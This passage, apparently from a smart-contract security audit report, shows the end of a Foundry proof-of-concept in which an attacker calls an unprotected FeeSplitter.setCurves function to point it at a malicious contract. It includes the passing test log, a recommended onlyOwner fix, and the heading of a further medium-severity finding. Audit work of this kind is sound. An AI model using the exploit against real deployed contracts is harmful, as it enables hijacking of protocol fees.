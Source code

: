 ```forge test --mt test_poc_no_restriction_set_curves_contract -vvv```
            feeSplitter.setCurves(Curves(maliciosuContract));
            vm.stopPrank();
            console.log("The address of malicious contract: %s", maliciosuContract);
            console.log("The attacker successfully set the Curves to: %s", address(feeSplitter.curves()));
            console.log("Does attacker successfully set the Curves: %s", address(feeSplitter.curves()) == address(maliciosuContract));
        }
    }
```

3. The following result:
```
Running 1 test for test/foundry/H01.t.sol:CounterTest
[PASS] test_poc_no_restriction_set_curves_contract() (gas: 64345)
Logs:
  The address of malicious contract: 0x0caaE6bC1772E730CA3A85a5Fe024D1f600de2cb
  The attacker successfully set the Curves to: 0x0caaE6bC1772E730CA3A85a5Fe024D1f600de2cb
  Does attacker successfully set the Curves: true

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.60ms
```

---
### Tools Used
* Manual Review
* Foundry

---
### Recommendation
Apply access control to restrict who can call the `FeeSplitter.setCurves()` function to be only the **owner** or **manager**.

```diff
+35:     function setCurves(Curves curves_) public onlyOwner {
36:         curves = curves_;
37:     }
  }
```
---

## <a name="m-01">[M-01]</a> The `Curves.Withdraw()` Function Allows Anyone to Create Unminted External Curve Tokens of Others, Bypassing The `Onlytokensubject` in Creating Processes

* **Severity**: Medium
* Source: [The `Curves.Withdraw()` Function Allows Anyone to Create Unminted External Curve Tokens of Others, Bypassing The `Onlytokensubject` in Creating Processes](https://github.com/code-423n4/2024-01-curves-findings/issues/577)

---